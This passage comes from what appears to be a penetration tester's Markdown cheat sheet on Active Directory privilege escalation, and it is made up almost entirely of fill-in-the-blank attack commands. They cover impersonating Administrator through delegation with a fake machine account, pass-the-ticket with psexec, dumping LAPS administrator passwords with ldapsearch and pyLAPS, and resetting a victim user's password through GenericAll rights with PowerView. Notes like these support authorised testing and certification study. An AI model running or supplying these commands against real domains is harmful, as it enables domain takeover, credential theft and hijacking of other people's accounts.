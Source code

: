 ```shell
python3 getST.py -spn cifs/<COMPUTER OBJECT HOSTNAME>.<DOMAIN> -impersonate Administrator -dc-ip <IP DC> <DOMAIN>/EVILCOMPUTER$:ev1lP@sS
```

Step 4: *Pass-the-Ticket* ed abuse of privilege

```shell
export KRB5CCNAME=`pwd`/administrator.ccache
python3 psexec.py -dc-ip <IP DC> -target-ip <IP TARGET> -no-pass -k <DOMAIN>/Administrator@<COMPUTER OBJECT HOSTNAME>.<DOMAIN> 
```

## ReadLAPSPassword

**Steps**:
1. a lot of methods can be used for enumeration:
	- BloodHound
	- PowerView
	- ldapsearch: `ldapsearch -v -x -D <SAMACCOUNTNAME>@<DOMAIN> -w "<PASSWORD>" -b "DC=hutch,DC=offsec" -H ldap://<IP TARGET>:<LDAP PORT> "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd`
1. cloning [https://github.com/p0dalirius/pyLAPS](https://github.com/p0dalirius/pyLAPS)
2. `python3 pyLAPS.py --action get -u <SAMACCOUNTNAME> -p '<PASSWORD>' -d '<DOMAINNAME>' --dc-ip <IP DC>`
3. we can access in the machine with Administrator user and password identified in point 2 (psexec, evil-winrm, ecc)

## GenericAllOverUser

**Requirements**:
- *GenericAll* on User object

Credit: [https://support.bloodhoundenterprise.io/hc/en-us/articles/17312347318043-GenericAll](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312347318043-GenericAll)

One of options is to reset the password of the user we have complete control over. **Steps**:
1. (*optional, but preferable*) prepare my credentials for the authentication with DC
	1. `$MYPASSWORD = ConvertTo-SecureString '<MY PASSWORD>' -AsPlainText -Force`
	2.  `$MYCREDS = New-Object System.Management.Automation.PSCredential('<DOMAIN NAME>\<MY USERNAME>', $MYPASSWORD)`
2. create a new password: `$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force`
3. change the password of the user whose privilege I have *GenericAll* to the *Set-DomainUserPassword* (**requires: *PowerView***)
	- with authentication at the DC: `Set-DomainUserPassword -Identity '<VICTIM USERNAME>' -AccountPassword $UserPassword -Credential $MYCREDS`
	- without authentication at the DC (or if i don't know the `<MY USERNAME>`'s password): `Set-DomainUserPassword -Identity '<VICTIM USERNAME>' -AccountPassword $UserPassword`

## PrivilegedGroups

### AccountOperators
